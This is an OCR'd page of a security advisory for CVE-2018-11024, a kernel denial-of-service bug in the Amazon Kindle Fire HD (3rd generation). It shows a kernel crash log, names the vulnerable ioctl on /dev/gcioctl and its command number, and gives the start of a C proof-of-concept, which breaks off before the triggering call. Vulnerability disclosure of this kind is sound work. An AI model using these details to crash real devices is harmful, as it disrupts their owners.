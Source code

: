 ```
[   97.242767] CPU0 PC (9) : 0xc003ee54
[   97.246826] CPU1 PC (0) : 0xc0019b2c
[   97.251007] CPU1 PC (1) : 0xc0019b2c
[   97.255065] CPU1 PC (2) : 0xc0019b2c
[   97.259124] CPU1 PC (3) : 0xc0019b2c
[   97.263183] CPU1 PC (4) : 0xc0019b2c
[   97.267364] CPU1 PC (5) : 0xc0019b2c
[   97.271423] CPU1 PC (6) : 0xc0019b2c
[   97.275482] CPU1 PC (7) : 0xc0019b2c
[   97.279693] CPU1 PC (8) : 0xc0019b2c
[   97.283752] CPU1 PC (9) : 0xc0019b2c
[   97.287811] 
[   97.289581] Restarting Linux version 3.4.83-gd2afc0bae69 (build@14-use1a-b-39) (gcc version 4.7 (GCC) ) #1 SMP PREEMPT Tue Sep 19 22:04:47 UTC 2017
[   97.289611] 

```


 ## CVE-2018-11024
 ### Abstract
 
* Name: Amazon Kindle Fire HD (3rd Generation) Kernel DoS
* Date: 2018-10-10
* Reporter: Shuaibing Lu, Liang Ming
* Vendor: http://www.amazon.com/
* Software Link: https://fireos-tablet-src.s3.amazonaws.com/46sVcHzumgrjpCXPHw6oygKVmw/kindle_fire_7inch_4.5.5.3.tar.bz2
* Version: Fire OS 4.5.5.3
### Description
Kernel module /omap/drivers/misc/gcx/gcioctl/gcif.c in the kernel component in Amazon Kindle Fire HD(3rd) Fire OS 4.5.5.3 allows attackers to inject a crafted argument via the argument of an ioctl on device /dev/gcioctl with the command 1077435789 and cause a kernel crash.

### PoC
```
#include<stdio.h>
#include<string.h>	  //strlen
#include<sys/socket.h>
#include<arpa/inet.h> //inet_addr
#include<unistd.h>	  //write
#include <stdlib.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <stdbool.h>

// Socket boilerplate code taken from here: http://www.binarytides.com/server-client-example-c-sockets-linux/

/*
 seed, ioctl_id, num_mappings, num_blobs, dev_name_len, dev_name, map_entry_t_arr, blobs
*/
int debug = 1;

typedef struct {
	int src_id;
	int dst_id;
	int offset;
} map_entry_t;

short tiny_vals[18] = {128, 127, 64, 63, 32, 31, 16, 15, 8, 7, 4, 3, 2, 1, 0, 256, 255, -1};
```